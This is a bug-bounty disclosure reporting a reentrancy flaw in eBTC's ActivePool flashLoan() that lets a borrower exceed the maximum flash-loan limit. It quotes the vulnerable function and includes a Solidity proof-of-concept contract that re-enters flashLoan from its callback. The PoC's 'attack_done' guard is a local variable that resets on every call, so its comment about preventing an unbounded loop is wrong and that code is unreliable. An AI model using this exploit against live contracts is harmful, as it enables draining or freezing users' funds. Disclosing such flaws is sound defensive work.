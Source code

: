 # Reentrancy on ActivePool allows users to borrow greater than Max Flash Loan

Submitted about 1 month ago by @shanb1605 (Whitehat) for Boost | eBTC

Report ID: #28605

Report type: Smart Contract

Has PoC? Yes

Target: https://github.com/ebtc-protocol/ebtc/blob/release-0.7/packages/contracts/contracts/ActivePool.sol

# Impacts
- Smart contract unable to operate due to lack of token funds
- Temporary freezing of funds for at least 15 minutes
- Bypassing Max Limit of Flash Loan amount

# Details

# Brief/Intro

The `flashLoan()` allows users to borrow collateral on Active Pool. The amount that can be borrowed is limited to `maxFlashLoan(token)` means one can borrow within the maximum limit of the amount. This limit can be bypassed with a reentrant call on the `flashLoan()` function.

# Vulnerability Details
The ActivePool contract misses reentrancy protection on `flashLoan()` which leads to borrowing over the max borrow limit of the token.

```
    function flashLoan(
        IERC3156FlashBorrower receiver,
        address token,
        uint256 amount,
        bytes calldata data
    ) external override returns (bool) {
        require(amount > 0, "ActivePool: 0 Amount");
        uint256 fee = flashFee(token, amount); // NOTE: Check for `token` is implicit in the requires above // also checks for paused
        require(amount <= maxFlashLoan(token), "ActivePool: Too much");

        uint256 amountWithFee = amount + fee;
        uint256 oldRate = collateral.getPooledEthByShares(DECIMAL_PRECISION);

        collateral.transfer(address(receiver), amount);

        require(
            receiver.onFlashLoan(msg.sender, token, amount, fee, data) == FLASH_SUCCESS_VALUE,
            "ActivePool: IERC3156: Callback failed"
        );

        collateral.transferFrom(address(receiver), address(this), amountWithFee);

        collateral.transfer(feeRecipientAddress, fee);

        require(
            collateral.balanceOf(address(this)) >= collateral.getPooledEthByShares(systemCollShares),
            "ActivePool: Must repay Balance"
        );
        require(
            collateral.sharesOf(address(this)) >= systemCollShares,
            "ActivePool: Must repay Share"
        );
        require(
            collateral.getPooledEthByShares(DECIMAL_PRECISION) == oldRate,
            "ActivePool: Should keep same collateral share rate"
        );

        emit FlashLoanSuccess(address(receiver), token, amount, fee);

        return true;
    }
```

# Impact Details
Bypass the max borrow amount and borrow until the Pool rans out of collateral.

# References
MakerDao has Reentrancy Protection on the FlashLoan module: https://github.com/makerdao/dss-flash/blob/9d492aa6148c35f568400a1ab85cd6df43b2ccc8/src/flash.sol#L74

https://github.com/makerdao/dss-flash/blob/9d492aa6148c35f568400a1ab85cd6df43b2ccc8/src/flash.sol#L137

# Proof of concept

```
pragma solidity ^0.8.0;

interface ActivePool {
    function flashLoan(address receiver,address token,uint256 amount,bytes calldata data) external;
}

contract FlashLoan_Receiver {
    bytes32 public constant FLASH_SUCCESS_VALUE = keccak256("ERC3156FlashBorrower.onFlashLoan");

    function call_Flashloan() external {
        ActivePool(address(1)).flashLoan(address(this), address(0xeee),12301300,"");
    }

    function onFlashLoan(address,address,uint256,uint256,bytes memory) external returns(bytes32) {
        some_actions();
        return FLASH_SUCCESS_VALUE;
    }

    function some_actions() internal {
        bool attack_done;
        if(!attack_done) {
            attack_done = true;
            ActivePool(address(1)).flashLoan(address(this), address(0xeee),12301300,"");
        }
    }

}
```

- First `call_Flashloan()` is executed to borrow max amount of tokens.
- Inside `onFlashLoan some_actions()` will executed to borrow again the collateral from ActivePool.
- It sets `attack_done = true` to prevent an unbounded loop.
- Further actions will be carried out with the Flash Loan amount.
